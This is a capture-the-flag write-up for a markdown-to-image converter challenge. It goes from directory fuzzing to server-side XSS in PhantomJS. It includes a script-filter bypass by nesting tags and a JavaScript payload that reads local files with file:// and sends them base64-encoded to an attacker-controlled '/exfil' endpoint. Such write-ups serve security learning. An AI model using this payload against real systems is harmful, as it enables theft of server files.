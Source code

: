 **The credits for creating this challenge go to: 0xPwny**

# Light recon:
Looking at the response headers `Server: Apache/2.4.18 (Ubuntu)`,  and the source code (which contains a `mstafa.php`) we will assume that we're dealing with PHP web application.

After doing a some light fuzzing, nothing interesting shows up except `flag.php`:  

```sh
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -u https://thnbdarija-xxconverters.chals.io/FUZZ -ac -c -v -e .php
[...Snip...]
[Status: 200, Size: 0, Words: 1, Lines: 1]
| URL | https://thnbdarija-xxconverters.chals.io/flag.php
    * FUZZ: flag.php
```

Browsing to it reveals nothing (so we must read it using LFI/RCE/SSTI/XXE ...)

# Markdown to PNG? : 
The form is rather simple, you submit something and it gets written to an image file which is sent back to us:

![image](https://user-images.githubusercontent.com/92731777/163899463-9e99e247-a015-4c20-90c3-3da55acaa11d.png)
![image](https://user-images.githubusercontent.com/92731777/163899634-50fd0257-da8a-4b51-8e6c-8e1ad257950b.png)

Our request/response combo looks like this:

![image](https://user-images.githubusercontent.com/92731777/163899581-1a914fe1-6b05-4663-b6ab-0e3a6d654d7e.png)

Filenames are random, the only possible attack vector is LFI/Command injection (if for example a router takes our input (filename) and looks for it in another directory besides `pics/`/ concatenates it with a command) but i won't go through it for now and i'll assume that the files are processed THEN written inside `pics/` directory.

This kind of converters have been generally vulnerable to the so called "server side" XSS (e.g dynamic pdf generators) where you can basically inject some html/js code that fetches local files, do SSRF etc...

Let's test that out:

![image](https://user-images.githubusercontent.com/92731777/163900258-ac67689b-113f-4c09-aeb5-06550de40919.png)


It wasn't reflected as text this time but as html instead, we got a potential XSS. Let's see if we can run Javascript code:

![image](https://user-images.githubusercontent.com/92731777/163900525-70325620-ab2f-4e62-ab97-f59d0396f4dd.png)


Yes we can, did you noticed that "script" has been stripped out? [spoiler: there's a WAF in action ;) ]

Running Javascript code like this is cumbersome (e.g you have to escape quotes every now and then when writing complex code). So, let's see if we can include remote script:

![image](https://user-images.githubusercontent.com/92731777/163900570-a6771503-178b-48da-b7f0-5459cd3cfcaa.png)

As mentioned, "script" has been stripped by the server, a common bypass for this is nesting one inside another like `scrscriptipt`, which results in the "outer" script to be concatenated.

Aaaaand we got a request: 

![image](https://user-images.githubusercontent.com/92731777/163901661-90286b32-c248-414f-84be-77bf76ef3e57.png)

# Time to stop joking about XSS:
Looking at the `User-Agent` header we can see `PhantomJS/2.1.1` which is a headless browser, after googling for any known vulnerability/PoC we will come across this one: https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/


TLDR; we make the server load our remote script, which reads local files using `file://` scheme, and sends the base64 encoded file back to us.
	
`innocent.js` content:
```js
function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="http://<your_webserver>/exfil?data='+b64+'"></iframe>');
} 
var oReq = new XMLHttpRequest(); 
oReq.addEventListener("load", reqListener); 
oReq.open("GET", "file:///etc/hosts"); // file to read
oReq.send();
```

Sping up your webserver to host the file and make the target server include it.
aaand we got a hit with the file being sent back to us:

![image](https://user-images.githubusercontent.com/92731777/163900753-305c7a72-d703-4903-81e4-ad9d11ff1fc8.png)

`/etc/hosts` file content: 

![image](https://user-images.githubusercontent.com/92731777/163900719-5ed911a2-7932-42a3-ab44-547b054fec59.png)

Local file read confirmed.
Remember that `/flag.php` file? by default apache hosts files under `/var/www/html/`, let's check if it's there

![image](https://user-images.githubusercontent.com/92731777/163901852-c38fb581-ca2b-476f-a594-7837ba2949ee.png)

Same drill, edit the file to read and resend the XSS payload, after getting a hit on your local webserver base64 decode the exfil parameter's content:

![image](https://user-images.githubusercontent.com/92731777/163901826-ae56c7a7-0f96-4650-8bbc-40252d86e1cb.png)

Flag: `thnb{3aaaaw3d_D3rd4k_aAasi_xsser}`



